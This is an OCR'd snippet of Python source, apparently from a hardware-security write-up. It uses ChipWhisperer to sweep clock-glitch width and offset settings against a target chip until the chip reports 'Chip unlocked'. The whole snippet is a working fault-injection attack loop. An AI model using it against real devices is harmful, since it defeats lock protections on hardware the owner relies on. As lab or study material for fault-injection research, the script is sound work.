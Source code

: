 ```python
    scope.clock.clkgen_freq  = 16E6 # 16MHz Clock Signal

    target = cw.target(scope)       # Serial Rx Setup to communicate with target
    target.baud = 19200

    gc = glitch.GlitchController(
            groups = ["success", "reset", "normal"], 
            parameters = ["width", "offset", "ext_offset"]
        )

    # Parameters to set the timing of the glitch
    gc.set_range("width", 40, 40)       
    gc.set_range("offset", -35, -25)   
    gc.set_range("ext_offset", 5, 10)
    gc.set_global_step(1)
    scope.glitch.repeat = 10

    # Reset function for the DUT
    def reboot_flush():
        scope.io.nrst = "low"
        time.sleep(0.05)
        scope.io.nrst = "high_z"
        time.sleep(0.05)
        target.flush()
        return

    cw.glitch_logger.setLevel(logging.ERROR)

    print("[+] Reset target chip and Start the Glitch cycle")

    reboot_flush()

    for glitch_setting in gc.glitch_values():
        scope.glitch.width = glitch_setting[0]
        scope.glitch.offset = glitch_setting[1]
        scope.glitch.ext_offset = glitch_setting[2]
        
        target.flush()
        scope.arm()
        scope.glitch.manualTrigger()
        val = target.read(128)
        
        if 'Chip unlocked' in val:
            print(val)
            print('[+] offset: {}  |  [+] width: {}  |  [+] ext_offset: {}'.format(
                        scope.glitch.offset, 
                        scope.glitch.width, 
                        scope.glitch.ext_offset))
            break
```
